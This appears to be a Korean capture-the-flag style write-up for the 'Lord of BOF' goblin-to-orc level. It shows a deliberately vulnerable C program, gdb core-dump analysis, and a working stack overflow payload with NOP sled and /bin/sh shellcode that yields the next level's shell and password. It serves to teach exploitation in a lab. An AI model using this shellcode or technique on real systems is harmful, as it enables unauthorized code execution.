 # [WriteUp]The Lord of BOF - goblin → orc

:black_nib:chykor12(sjjo0225@gmail.com)

---

```bash
[goblin@localhost goblin]$ cat orc.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```

`cobolt`와 같은 방식으로 하면 된다. 코드를 보면 `main()`의 매개변수로 준 첫 번째 문자열의 48번째 문자가 `"\xbf"`가 아니면 프로그램을 종료한다. 이 조건을 맞춰서 BOF를 발생시키고 `core` 파일을 디버깅해보자.

```bash
[goblin@localhost /tmp]$ ./orc `python -c 'print "A"*47+"\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
Segmentation fault (core dumped)
[goblin@localhost /tmp]$ ls
cobolt	core  goblin  orc
[goblin@localhost /tmp]$ gdb -q -c core
Core was generated by `./orc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�'.
Program terminated with signal 11, Segmentation fault.
#0  0xbf414141 in ?? ()
(gdb) x/40wx $esp-0x40
0xbffffc70:	0x080485d3	0x08048659	0xbffffc80	0x00000017
0xbffffc80:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc90:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffca0:	0x41414141	0x41414141	0x41414141	0xbf414141
0xbffffcb0:	0x00000000	0xbffffcf4	0xbffffd00	0x40013868
0xbffffcc0:	0x00000002	0x08048450	0x00000000	0x08048471
0xbffffcd0:	0x08048500	0x00000002	0xbffffcf4	0x08048390
0xbffffce0:	0x0804860c	0x4000ae60	0xbffffcec	0x40013e90
0xbffffcf0:	0x00000002	0xbffffdec	0xbffffdf2	0x00000000
0xbffffd00:	0xbffffe23	0xbffffe2c	0xbffffe46	0xbffffe65
```

버퍼의 시작 주소는 `0xbffffc80`이고, 리턴 어드레스는 `0xbffffcac`에 위치하므로 다음과 같이 공격하면 될 것이다. 리턴 어드레스는 지금까지 했던 것처럼 적당히 설정하자.

payload: dummy(`0x2c`byte) + return address(`0xbffffd10`) + NOP sled(`0x1000`byte) + shellcode(`"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`)

```bash
[goblin@localhost /tmp]$ ./orc `python -c 'print "A"*0x2c+"\x10\xfd\xff\xbf"+"\x90"*0x1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
...
bash$ whoami
orc
bash$ my-pass
euid = 504
cantata
```
